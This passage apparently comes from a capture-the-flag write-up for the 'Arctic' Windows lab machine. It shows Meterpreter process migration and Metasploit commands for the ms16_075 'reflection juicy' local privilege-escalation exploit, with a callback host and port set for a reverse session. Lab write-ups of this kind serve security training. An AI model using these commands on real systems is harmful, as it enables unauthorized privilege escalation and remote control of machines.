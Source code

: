 so we are going to migrate to `conhost`

```sh
migrate 1164
```

![](/Windows/Windows-Easy/Arctic/Screenshots/migrateto.png)

so its now on 64 metrepreter so we will run again suggester

![](/Windows/Windows-Easy/Arctic/Screenshots/64bit.png)

i decide to use this exploit `ms16_075`

```sh
use exploit/windows/local/ms16_075_reflection_juicy
show options
sessions -i
set SESSION 1
set LHOST 10.10.14.9
set LPORT 1347
```
